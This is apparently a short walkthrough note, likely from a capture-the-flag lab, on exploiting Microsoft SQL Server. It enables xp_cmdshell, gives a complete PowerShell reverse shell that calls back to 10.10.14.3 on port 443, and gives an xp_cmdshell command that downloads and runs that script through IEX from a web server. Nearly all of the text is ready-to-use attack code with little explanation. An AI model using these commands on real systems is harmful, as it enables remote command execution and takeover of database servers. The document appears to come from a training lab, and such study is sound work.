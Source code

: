 # exploittation
 go to insite and run: 
``` 
 EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;
sp_configure;
EXEC sp_configure 'xp_cmdshell', 1
reconfigure;
xp_cmdshell "whoami"

```

ReverseShell:
```
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.3",443);$stream =
$client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i =
$stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName
System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 |
Out-String );$sendback2 = $sendback + "# ";$sendbyte =
([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyt
e.Length);$stream.Flush()};$client.Close()
``` 
save the shell.ps1 file. then using the python to download 

From the sql cmd: 

xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://IP/shell.ps1\");"
